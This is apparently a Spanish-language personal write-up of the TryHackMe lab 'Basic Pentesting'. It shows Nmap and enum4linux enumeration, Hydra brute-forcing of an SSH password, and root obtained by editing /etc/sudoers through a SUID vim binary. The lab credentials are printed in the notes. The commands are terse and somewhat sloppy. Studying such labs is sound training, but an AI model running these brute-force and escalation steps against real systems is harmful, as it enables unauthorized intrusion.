





# Basic Pentesting

Plataforma: TryHackMe
OS: Linux
Level: Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 15 de diciembre de 2024 19:15
IP: 10.10.132.218

# Reconocimiento (Recon)

Escaneo de Puertos

- [ ]  **Nmap inicial**:

```bash
sudo nmap -p- --open -T5 -sS --min-rate 5000 -vvv -n -Pn <%IP%> -oG targeted

```

**Puertos Abiertos**:
**[Puertos ]**: 22,80,139,445,8009,8080


- [ ]  **Nmap servicios**:

```bash
sudo nmap -sCV -p1,2,3 <%IP%> -oN nmap
sudo nmap -v -sV -O --script="safe and vuln" -T4 -n -Pn -p135,445 -oA nmap <%IP%>
```



- [ ]  **Nmap webscan**

```bash
sudo nmap -p80 --script=http-enum 10.10.132.218 -oN webscan

```

Potentially interesting: /development/

- [ ]  **Enum4linux**:

```bash
emum4linux -a <IP>

```

User: **kay**
User: **jan**

# Análisis de Vulnerabilidades

**Vulnerabilidad Potencial**:

/developer/



**Vulnerabilidad Potencial**:
Probamos con hydra a los usuarios kay y jan

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.132.218 ssh

```



User: **jan**
Pass: **armando**

Conectamos por SSH

# Explotación (Exploit)

Ejecución del Exploit

- **Exploit Utilizado**:
    
    ```bash
    enum4linux -a IP
    ```
    

Resultados**:  Usuarios con los que probar fuerza bruta

# Escalada de Privilegios

- **Enumeración de Privilegios**:
    
    ```bash
    find / -perm -u=s -type f 2>/dev/null
    ```
    



- **Método de Escalada**: Editamos un fichero privilegiado con un binario SUID

```bash
    /usr/bin/vim.basic
    /usr/bin/vim.basic /etc/sudoers    
```



```bash
sudo su
root
```

# Post-Explotación

Obtención de User.txt

- **Localización**: Obtenido con hydra
- Contenido :
    - User: jan
    - Pass: Armando

### 4.2 Obtención de Root.txt

- **Localización**:
    
    ```bash
    /home/kay/pass.bak
    ```
    

- **Contenido**:
    
    ```bash
    heresareallystrongpasswordthatfollowsthepasswordpolicy$$
    ```
